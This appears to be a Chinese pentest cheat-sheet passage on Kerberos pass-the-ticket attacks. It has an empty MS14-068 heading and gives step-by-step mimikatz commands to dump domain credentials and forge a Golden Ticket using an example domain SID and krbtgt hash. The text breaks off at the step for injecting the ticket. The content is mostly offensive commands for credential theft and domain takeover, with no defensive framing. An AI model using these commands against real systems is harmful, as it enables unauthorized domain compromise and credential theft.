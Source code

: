 ### PTT

#### **ms14-068**


#### **Golden_Tickets**

黄金票据

需要先抓到 某个域控管理员的账号`hash`和`sid`,通过mimikatz 伪造黄金票据在低权限的用户上也能访问到其他用户。

1. dump hash

```bash

privilege::debug
lsadump::lsa /patch

或

mimikatz.exe "privilege::debug” "sekurlsa::logonpasswords" "exit" > log.txt

# 生成一个回显输出。
```

2. 使用 mimikatz 伪造的黄金票据：

```bash
kerberos::golden /user:<用户名> /domain:<域名> /sid:<域SID> /krbtgt:<Hash> /ticket:test.kiribi

# 示例

kerberos::golden /user:administartor /domain:test.com /sid:S-1-5-21-1112871890-2494343973-3486175548-500 /krbtgt:e20e81c5c06ccf288474c581f13423b9 /ticket:test.kiribi
```

![](img/2.png)

3. 利用 `mimikatz` 的 `kerberos::ptt` 将黄金票据 test.kiribi 注入到内存中：
